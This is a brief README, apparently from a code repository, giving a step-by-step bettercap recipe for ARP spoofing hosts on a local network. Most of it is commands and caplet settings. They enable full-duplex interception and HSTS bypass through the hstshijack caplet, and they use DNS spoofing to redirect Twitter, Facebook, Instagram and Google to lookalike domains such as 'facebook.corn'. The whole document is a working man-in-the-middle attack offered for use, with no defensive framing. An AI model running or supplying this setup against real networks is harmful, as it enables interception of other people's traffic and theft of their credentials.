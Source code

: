 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   1. `bettercap -iface <interface>`
   2. `net.probe on`
   3. `net.show`
   4. Pick a client and exit bettercap.
   5. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
  1. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
  2. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
  3. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
  1. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
  2. Targets and replacements could look like this… (customize to your liking)
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
  3. dns.spoof.domains could look like this... (customize to your liking)
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
  1. `bettercap -iface <interface> -caplet <capletfile>`
  2. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
  1. `hstshijack/hstshijack`
  2. `caplets.show`








